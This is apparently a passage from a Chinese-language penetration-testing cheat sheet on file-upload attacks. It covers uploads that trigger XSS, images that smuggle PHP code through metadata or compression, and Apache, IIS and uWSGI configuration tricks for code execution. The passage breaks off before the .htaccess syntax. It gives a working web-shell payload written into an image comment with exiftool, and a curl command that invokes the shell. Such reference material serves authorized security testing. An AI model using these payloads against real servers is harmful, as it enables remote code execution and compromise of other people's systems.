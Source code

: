 您还可以上传：

* HTML/SVG 文件以触发 XSS
* EICAR 文件以检查防病毒软件是否存在

### 图片压缩

创建包含 PHP 代码的有效图片并上传。然后使用 **本地文件包含** 来执行代码。可以使用以下命令调用 shell: `curl 'http://localhost/test.php?0=system' --data "1='ls'"`。

* 图片元数据，在元数据的注释标签内隐藏有效负载。
* 图片缩放，在压缩算法内隐藏有效负载以绕过缩放。还击败了 `getimagesize()` 和 `imagecreatefromgif()`。
    * [JPG](https://virtualabs.fr/Nasty-bulletproof-Jpegs-l): 使用 createBulletproofJPG.py
    * [PNG](https://blog.isec.pl/injection-points-in-popular-image-formats/): 使用 createPNGwithPLTE.php
    * [GIF](https://blog.isec.pl/injection-points-in-popular-image-formats/): 使用 createGIFwithGlobalColorTable.php

### 图片元数据

创建自定义图片并在其中插入 exif 标签使用 `exiftool`。可以在 [exiv2.org](https://exiv2.org/tags.html) 找到多个 exif 标签列表。

```ps1
convert -size 110x110 xc:white payload.jpg
exiftool -Copyright="PayloadsAllTheThings" -Artist="Pentest" -ImageUniqueID="Example" payload.jpg
exiftool -Comment="<?php echo 'Command:'; if($_POST){system($_POST['cmd']);} __halt_compiler();" img.jpg
```

### 配置文件

如果您尝试上传到：

* PHP 服务器，请查看 [.htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess) 技巧以执行代码。
* ASP 服务器，请查看 [web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config) 技巧以执行代码。
* uWSGI 服务器，请查看 [uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini) 技巧以执行代码。

配置文件示例

* [Apache: .htaccess](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Apache%20.htaccess)
* [IIS: web.config](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20IIS%20web.config)
* [Python: \_\_init\_\_.py](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20Python%20__init__.py)
* [WSGI: uwsgi.ini](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files/Configuration%20uwsgi.ini/uwsgi.ini)

#### Apache: .htaccess

`.htaccess` 文件中的 `AddType` 指令用于指定 Apache HTTP 服务器上不同文件扩展名的 MIME（多用途互联网邮件扩展）类型。此指令帮助服务器理解如何处理不同类型文件，并在向客户端（如网络浏览器）提供文件时关联何种内容类型。

这是 `AddType` 指令的基本语法：
